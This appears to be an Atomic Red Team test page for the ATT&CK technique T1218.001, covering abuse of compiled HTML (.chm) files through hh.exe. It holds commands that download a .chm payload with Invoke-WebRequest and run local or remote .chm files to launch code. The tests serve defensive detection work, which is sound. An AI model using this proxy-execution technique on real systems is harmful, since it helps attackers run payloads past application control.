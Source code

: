 # T1218.001 - Compiled HTML File
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/001)
<blockquote>Adversaries may abuse Compiled HTML files (.chm) to conceal malicious code. CHM files are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)

A custom CHM file containing embedded payloads could be delivered to a victim then triggered by [User Execution](https://attack.mitre.org/techniques/T1204). CHM execution may also bypass application application control on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Compiled HTML Help Local Payload](#atomic-test-1---compiled-html-help-local-payload)

- [Atomic Test #2 - Compiled HTML Help Remote Payload](#atomic-test-2---compiled-html-help-remote-payload)


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.
Upon execution calc.exe will open

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1218.001&#92;src&#92;T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{local_chm_file}
```




#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{local_chm_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{local_chm_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.001/src/T1218.001.chm" -OutFile "#{local_chm_file}"
```




<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.001/src/T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{remote_chm_file}
```






<br/>
